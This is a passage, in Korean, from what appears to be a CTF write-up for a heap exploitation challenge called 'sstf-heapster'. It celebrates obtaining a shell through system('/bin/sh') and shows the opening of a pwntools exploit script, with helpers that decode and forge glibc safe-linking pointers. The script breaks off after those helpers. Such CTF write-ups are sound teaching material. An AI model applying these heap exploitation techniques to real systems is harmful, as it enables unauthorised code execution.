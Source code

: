 ![Untitled](sstf-heapster/Untitled%207.png)

`system("/bin/sh")`이 호출되어 쉘이 얻어집니다!!! 👏🏻👏🏻👏🏻

```python
from pwn import *

context.log_level = 'debug'

p = process("./chal")
l = ELF("./libc.so.6")

cmd = lambda x: p.sendlineafter(b'cmd:', str(x).encode())

heap_base = 0

def decrypt_safe_linking(ptr):
    _12bits = []
    dec = 0
    while ptr != 0:
        _12bits.append(ptr & 0xfff)
        ptr = ptr >> 12

    x = _12bits.pop()
    while len(_12bits) > 0:
        dec |= x
        dec = dec << 12
        y = _12bits.pop()
        x = x ^ y
    dec |= x

    return dec

def safe_link(pos, ptr):
    return (pos >> 12) ^ ptr

def add(idx, data):
    cmd(1)
    p.sendline(str(idx).encode())
    p.sendline(data)

```
